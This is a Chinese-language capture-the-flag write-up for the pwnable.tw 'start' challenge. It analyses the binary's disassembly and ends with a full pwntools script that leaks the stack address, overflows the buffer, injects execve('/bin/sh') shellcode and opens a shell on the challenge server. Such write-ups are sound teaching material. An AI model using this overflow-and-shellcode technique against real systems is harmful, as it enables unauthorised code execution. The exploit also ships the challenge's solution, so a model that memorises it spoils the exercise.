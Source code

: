 > 参考资料：
>
> - 安全客，前六题的题解：<https://www.anquanke.com/post/id/150359>
> - Linux Syscall Reference：<http://syscalls.kernelgrok.com/>
> - Assembly Reference: <https://www.felixcloutier.com/x86/>

# START

首先检查安全保护等级：

```bash
$ checksec ./start
[*] '/mnt/d/program/ctf/pwnable/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

查看汇编代码：

```bash
$ objdump -d ./start

./start:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       54                      push   %esp
 8048061:       68 9d 80 04 08          push   $0x804809d
 8048066:       31 c0                   xor    %eax,%eax
 8048068:       31 db                   xor    %ebx,%ebx
 804806a:       31 c9                   xor    %ecx,%ecx
 804806c:       31 d2                   xor    %edx,%edx
 804806e:       68 43 54 46 3a          push   $0x3a465443
 8048073:       68 74 68 65 20          push   $0x20656874
 8048078:       68 61 72 74 20          push   $0x20747261
 804807d:       68 73 20 73 74          push   $0x74732073
 8048082:       68 4c 65 74 27          push   $0x2774654c
 8048087:       89 e1                   mov    %esp,%ecx
 8048089:       b2 14                   mov    $0x14,%dl
 804808b:       b3 01                   mov    $0x1,%bl
 804808d:       b0 04                   mov    $0x4,%al
 804808f:       cd 80                   int    $0x80
 8048091:       31 db                   xor    %ebx,%ebx
 8048093:       b2 3c                   mov    $0x3c,%dl
 8048095:       b0 03                   mov    $0x3,%al
 8048097:       cd 80                   int    $0x80
 8048099:       83 c4 14                add    $0x14,%esp
 804809c:       c3                      ret

0804809d <_exit>:
 804809d:       5c                      pop    %esp
 804809e:       31 c0                   xor    %eax,%eax
 80480a0:       40                      inc    %eax
 80480a1:       cd 80                   int    $0x80
```

我们分析这个汇编代码的结构：

1. 观察这个函数的开始段，它并没有诸如押入 `ebp` 等栈操作。一直到 `0x804806c` 这个地址，函数做了一些初始化的事情，并且把四个寄存器置 0；

2. `0x804806e - 0x8048082` 这段地址向栈中存入了字符串（小端存储、栈从高到低增长）：

   ```python
   print(b'\x4c\x65\x74\x27\x73\x20\x73\x74\x61\x72\x74\x20\x74\x68\x65\x20\x43\x54\x46\x3a')
   # b"Let's start the CTF:"
   ```

3. `0x8048087 - 0x804808f` 这段代码调用了 `int 80h` 中断，查询[网址](<http://syscalls.kernelgrok.com/>)，知道 4 号中断是 `sys_write()`：

   ```c
   sys_write(unsigned int fd = 1, const char __user *buf = $esp, int count = 0x14)
   ```

4. `0x8048091 - 0x8048097` 这段代码调用了 `int 80h` 的 3 号中断 `sys_read()`：

   ```c
   sys_read(unsigned int fd = 0, const char __user *buf = $esp, int count = 0x3c)
   ```

5. 然后程序在 `0x8048099` 将栈顶指针上移了 `0x14`  个字节。

6. 然后程序执行 `ret` 指令（`ret` 指令只做一件事情，将程序的执行权交给栈顶 `esp` 指向的地址）。

`exp.py` 如下：

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *

class Challenge:
    def __init__(self, local=True):
        self.local = local
        if local:
            self.p = process(['./start'])
        else:
            self.p = remote("chall.pwnable.tw", 10000)

    def gdb(self):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0])

    def leak_esp(self):
        self.p.recvuntil(':')
        payload1 = 'a'*0x14 + p32(0x8048087)
        self.p.send(payload1)
        self.esp = self.p.recv(4)
        print("get esp:", list(self.esp))

    def inject_shellcode(self):
        shellcode = asm(''.join([
            "push %d\n" % u32("/sh\0"),
            "push %d\n" % u32("/bin"),
            "mov ebx,esp\n",  # EBX 指向栈顶
            "xor edx,edx\n",  # 置零 EDX
            "xor ecx,ecx\n",  # 置零 ECX
            "mov eax,0xb\n",  # 指明中断进程 sys_execute
            "int 0x80"
        ]))
        assert len(shellcode) < 0x3c - 0x14 - 0x4
        payload2 = 'a'*0x14 + p32(u32(self.esp) + 0x14) + shellcode
        self.p.send(payload2)

    def get_shell(self):
        self.p.interactive()

    def pwn(self):
        print("----------begin-----------")
        self.leak_esp()
        self.inject_shellcode()
        self.get_shell()
        self.p.wait_for_close()
        print("-----------end------------")

if __name__ == "__main__":
    s = Challenge(False)
    s.pwn()
```

